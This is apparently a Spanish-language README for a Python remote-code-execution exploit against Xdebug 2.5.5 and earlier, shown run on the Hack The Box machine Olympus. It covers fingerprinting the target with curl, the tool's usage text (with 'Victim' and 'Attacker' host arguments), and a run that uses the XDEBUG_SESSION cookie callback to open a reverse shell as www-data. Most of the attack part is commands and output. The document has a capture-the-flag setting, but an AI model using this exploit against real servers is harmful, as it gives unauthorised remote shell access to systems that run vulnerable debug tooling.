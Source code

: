 # Xdebug Command Execution

## Descripción
Exploit que permite la ejecución de código remoto debido al uso de la tecnología Xdebug de versión 2.5.5 y anteriores

```bash
❯ curl -I -X OPTIONS http://10.10.10.83/
HTTP/1.1 200 OK
Date: Sun, 19 Sep 2021 02:37:47 GMT
Server: Apache
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
Xdebug: 2.5.5
Content-Length: 314
Content-Type: text/html; charset=UTF-8
```
El exploit manda un valor aleatorio de la cookie **XDEBUG_SESSION**, permitiendo que se entable una conexión hacia nuestra máquina a través del puerto 9000. Para facilitar la intrusión, se manda una reverse shell para tener una shell interactiva.

## Uso

```bash
❯ python3 xdebug_rce.py
usage: xdebug_rce.py [-h] --rhost RHOST --lhost LHOST [--lport LPORT]
xdebug_rce.py: error: the following arguments are required: --rhost, --lhost

❯ python3 xdebug_rce.py -h
usage: xdebug_rce.py [-h] --rhost RHOST --lhost LHOST [--lport LPORT]

Xdebug Command Execution

optional arguments:
  -h, --help     show this help message and exit
  --rhost RHOST  Remote host ip (Victim)
  --lhost LHOST  Local host ip (Attacker)
  --lport LPORT  Local port (default: 443)
```

Se ejecutó el exploit en la máquina **Olympus** de la plataforma Hack The Box.
```bash
❯ python3 xdebug_rce.py --rhost 10.10.10.83 --lhost 10.10.14.16
[+] Payload: Connection received from 10.10.10.83:41628 on port 9000
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.83 on port 59744
[+] Reverse shell: Established connection
[*] Switching to interactive mode
$ whoami
www-data
$ 
```
